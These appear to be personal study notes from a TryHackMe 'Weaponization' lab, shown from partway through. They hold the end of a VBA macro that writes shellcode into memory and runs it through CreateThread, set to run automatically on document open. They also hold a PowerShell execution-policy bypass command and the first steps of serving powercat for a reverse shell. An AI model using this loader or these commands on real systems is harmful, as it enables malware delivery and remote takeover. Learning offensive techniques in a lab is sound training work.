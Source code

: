 ```vb
	For Hcca = LBound(Euu) To UBound(Euu)
		Qdsso = Euu(Hcca)
		Tocmavpch = RtlMoveMemory(Apebxtuq + Hcca, Qdsso, 1)
	Next Hcca
	Tocmavpch = CreateThread(0, 0, Apebxtuq, 0, 0, 0)
End Sub
Sub AutoOpen()
	Auto_Open
End Sub
Sub Document_Open()
	Auto_Open
End Sub

```

![[Pasted image 20241106231714.png]]



![[Pasted image 20241106231526.png]]



![[Pasted image 20241106231514.png]]


## Powershell PSH
Powershell is a object-oriented programming language executed from the Dynamic Language Runtiume (**DLR**) in **.NET**.

By default microsoft block the .ps1 script, to view the Execution policy in powershell use the `Get-ExecutionPolicy` command.
![[Pasted image 20241109234902.png]]

### Bypass Execution Policy

Microsoft provides ways to disable this restriction. One of these ways is by giving an argument option to the PowerShell command to change it to your desired setting. For example, we can change it to **bypass** policy which means nothing is blocked or restricted. This is useful since that lets us run our own PowerShell scripts.  

In order to make sure our PowerShell file gets executed, we need to provide the bypass option in the arguments as follows,
```powershell
powershell -ex bypass -File thm.ps1 Welcome to Weaponization Room!
```


Now, let's try to get a reverse shell using one of the tools written in PowerShell, which is powercat. On your AttackBox, download it from GitHub and run a webserver to deliver the payload.  

```shell-session
user@machine$ git clone https://github.com/besimorhino/powercat.git
Cloning into 'powercat'...
remote: Enumerating objects: 239, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 239 (delta 0), reused 2 (delta 0), pack-reused 235
Receiving objects: 100% (239/239), 61.75 KiB | 424.00 KiB/s, done.
Resolving deltas: 100% (72/72), done.
```
